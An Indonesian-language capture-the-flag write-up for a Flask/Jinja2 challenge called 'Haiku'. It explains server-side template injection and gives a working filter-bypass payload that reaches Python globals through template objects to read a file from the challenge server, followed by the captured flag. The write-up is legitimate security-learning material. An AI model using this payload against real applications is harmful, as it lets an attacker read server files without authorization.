

# **Haiku**
SSTI (Server-Side Template Injection) adalah sebuah kerentanan keamanan yang terjadi ketika serangan injeksi terjadi pada logika template yang dievaluasi di sisi server. Dalam konteks aplikasi web, biasanya ada mesin template yang digunakan untuk menghasilkan tampilan halaman web dengan menggabungkan template (pola) dengan data yang diterima dari pengguna atau sumber eksternal.

SSTI terjadi ketika serangan injeksi memungkinkan penyerang untuk menyisipkan kode atau instruksi yang akan dievaluasi oleh mesin template di sisi server. Hal ini dapat memungkinkan penyerang untuk mengakses atau memanipulasi data, menjalankan perintah sistem, atau bahkan merusak keamanan aplikasi secara keseluruhan.

## **About the challenge**
Pada Challenge kali ini, Probleset memberikan Website yang dibuat dan dijalankan menggunakan Flask dan templatenya menggunakan Jinja2. Ada banyak filter yang digunakan pada website ini ( Probleset Ngasih filternya ga wajar, diluar nayla, ga habis fikri, membuat pemain ga bisa tidur nyenyak ).


## **Solution**
Setelah saya telusuri websitenya, hanya beberapa kata/karakter yang digunakan sehingga menyulitkan untuk disolve. saya mencoba membuat sebuah code yang didapat dari directory web tersebut. Dan dibawah ini kode yang dapat memecahkan challenge ini : 
```
http://103.167.136.89:10001/{{get_flashed_messages.__globals__.send_file(lipsum.__globals__.os.listdir().pop(1)).response.file.read()}}
```
And we got flag
```
ForestyHC{roses_are_red_violets_are_blue_b34b48}
```
NOTE : Challenge ini bukan pure saya yang ngerjain sendiri, dibantu dengan adanya usaha kating RKS saya :)
